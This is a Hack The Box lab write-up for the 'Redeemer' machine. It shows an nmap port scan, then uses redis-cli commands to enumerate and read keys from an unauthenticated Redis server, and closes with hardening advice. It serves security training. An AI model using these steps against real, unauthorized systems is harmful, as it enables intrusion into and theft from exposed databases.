




# Redeemer

**Platform:** Hack The Box
**Difficulty:** Very Easy
**Completed Date:** 2026-06-05

---

## 📋 About

Redeemer is a very easy Linux machine that introduces Redis, an in-memory database. The challenge focuses on service enumeration, interacting with Redis using `redis-cli`, and extracting information from an exposed database.

---

## 🎯 Objectives

* Identify open ports and running services.
* Enumerate the Redis server.
* Access the database using `redis-cli`.
* Retrieve the flag from the database.

---

# 🔍 Reconnaissance

## Port Scanning

A full TCP port scan was performed against the target:

```bash
nmap -Pn -p- --min-rate 1000 10.129.79.188
```

### Scan Options

* `-Pn` – Treat the host as online and skip host discovery.
* `-p-` – Scan all 65535 TCP ports.
* `--min-rate 1000` – Send at least 1000 packets per second to speed up the scan.



The scan revealed the following service:

```text
6379/tcp open redis
```

Port **6379** is the default port used by Redis.

---

# Enumeration

## Connecting to Redis

Since Redis was exposed and did not require authentication, the `redis-cli` utility was used to connect to the service:

```bash
redis-cli -h 10.129.79.188 -p 6379
```

After successfully connecting, server information was gathered using:

```bash
info
```

This command displays various statistics and configuration details about the Redis instance.



From the output, the Redis version was identified as:

```text
5.0.7
```

---

## Selecting a Database

Redis supports multiple logical databases.

To select database 0:

```bash
select 0
```



---

## Enumerating Keys

To view all keys stored in the selected database:

```bash
keys *
```

The output revealed four keys.



---

## Retrieving the Flag

One of the discovered keys was named `flag`.

To retrieve its value:

```bash
get flag
```

The command returned the flag.

---

# Flag

```text
HTB{REDACTED}
```

---

# Why the Attack Works

The Redis service was exposed to the network and allowed unauthenticated access.

Normally, Redis instances should be:

* Protected by authentication.
* Restricted to trusted hosts.
* Bound to localhost when remote access is unnecessary.

Because no authentication was required, it was possible to:

1. Connect directly to the Redis server.
2. Enumerate available databases.
3. List stored keys.
4. Read sensitive data, including the flag.

This type of misconfiguration can lead to information disclosure and, in real-world environments, may allow further compromise of the system.

---

# Key Takeaways

* Redis commonly runs on port **6379**.
* `redis-cli` is the primary tool for interacting with Redis servers.
* The `info` command provides useful information about the server configuration and version.
* `select` is used to switch between Redis databases.
* `keys *` can be used to enumerate stored keys.
* Exposed Redis instances without authentication pose a significant security risk.

---

# Tools Used

* Nmap
* redis-cli
* Linux Terminal
